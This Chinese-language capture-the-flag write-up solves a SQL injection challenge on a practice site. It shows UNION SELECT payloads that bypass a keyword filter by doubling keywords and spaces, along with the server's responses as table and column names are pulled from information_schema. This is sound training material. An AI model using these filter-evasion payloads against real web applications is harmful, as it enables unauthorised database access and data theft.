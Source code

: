 # 题目

通过注入获得flag值（提交格式：flag{}）。

解题链接： [http://ctf5.shiyanbar.com/423/web/](http://ctf5.shiyanbar.com/423/web/)

# writeup

参考：http://hebin.me/2017/09/06/%E8%A5%BF%E6%99%AEctf-%E7%AE%80%E5%8D%95%E7%9A%84sql%E6%B3%A8%E5%85%A5/

## 步骤

首先，爆出表名：

```shell
1'  unionunion  selectselect  table_name  fromfrom  information_schema.tables  wherewhere  '1'='1
```

再爆出列名：

```shell
1' unionunion  selectselect  column_namcolumn_namee  fromfrom  information_schema.coluinformation_schema.columnsmns  wherewhere  table_name='flag
```

再直接看值：

```shell
1'  unionunion  selectselect  flag  fromfrom  flag  wherewhere  '1'='1
```

## 探究

1.  输入数值1返回结果：

```shell
ID: 1
name: baloteli
```

在输入1'(注意输入法)：

```shell
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1''' at line 1
```

可见输入的是字符串类型，并且存在注入点。

2.  由于题目问过滤了什么，干脆将几个关键字一起写出来，输入如下语句：

```shell
1 and or # --  union select from where
```

```shell
ID: 1 or    where
name: baloteli
```

从id项看出有几个已经被过滤掉了，而且是直接把关键字给去掉，那么可以用类似ab(abc)c来绕过过滤，abc是要绕过的关键字，使用时不加括号，这里加括号只是为了区分.

3.  开始爆表名，在之前应该先猜解union需要的列数，我直接猜的1列：

```shell
1' ununionion seselectlect 1 frofromm information_schema.tables where '1'='1
```

```shell
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'ununionion seselectlect 1 frofromm information_schema.tables '1'='1'' at line 1
```

尴尬了。。几个关键字竟然没有成功绕过，猜想过滤时应该是从单词开始进行匹配的，那么可以尝试将两个同样的关键字首尾连起来测试，并且从返回结果还可以看到where关键字被过滤了（不知道为什么第一步中没被过滤）。

```shell
1' unionunion selectselect table_name fromfrom information_schema.tables wherewhere '1'='1
```

```shell
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'unionselecttable_name frominformation_schema.tables where'1'='1'' at line 1
```

又报错了，但是可以发现几个关键字已经绕过过滤了，但是他们却连在了一起，可能空格已被过滤了，再试试

```shell
1'  unionunion  selectselect  table_name  fromfrom  information_schema.tables  wherewhere  '1'='1
```

就是用两个空格代替一个，方法和关键字一样。然后直接返回一大堆结果，可以发现一个特殊的表名

```shell
ID: 1'  union select table_name  from information_schema.tables  where '1'='1
name: flag
```

4.  爆出列名：

```shell
1'  unionunion  selectselect  column_name  fromfrom  information_schema.columns  wherewhere  table_name='flag
```

```shell
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'from   where table_name='flag'' at line 1
```

`information_schema.columns` 跑哪了？估计被过滤了

```shell
1'  unionunion  selectselect  column_name  fromfrom  information_schema.columnsinformation_schema.columns  wherewhere  table_name='flag
```

结果仍然是刚才的错误警告，不知道后台怎么过滤的，再换一种ab（abc）c形式的过滤

```shell
1' unionunion  selectselect  column_name  fromfrom information_schema.coluinformation_schema.columnsmns  wherewhere  table_name='flag
```

```shell
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'where table_name='flag'' at line 1
```

这下有点懵了，这会是什么错误？想了半天，可能是把column_name也给过滤了吧：

```shell
1' unionunion  selectselect  column_namcolumn_namee  fromfrom  information_schema.coluinformation_schema.columnsmns  wherewhere  table_name='flag
```

```shell
ID: 1' union select column_name  from information_schema.columns  where table_name='flag
name: baloteli

ID: 1' union select column_name  from information_schema.columns  where table_name='flag
name: flag

ID: 1' union select column_name  from information_schema.columns  where table_name='flag
name: id
```

找到特殊列flag

5.  直接查询flag：

```shell
1'  unionunion  selectselect  flag  fromfrom  flag  wherewhere  '1'='1
```

```shell
ID: 1'  union select flag  from flag  where '1'='1
name: baloteli

ID: 1'  union select flag  from flag  where '1'='1
name: flag{******}
```
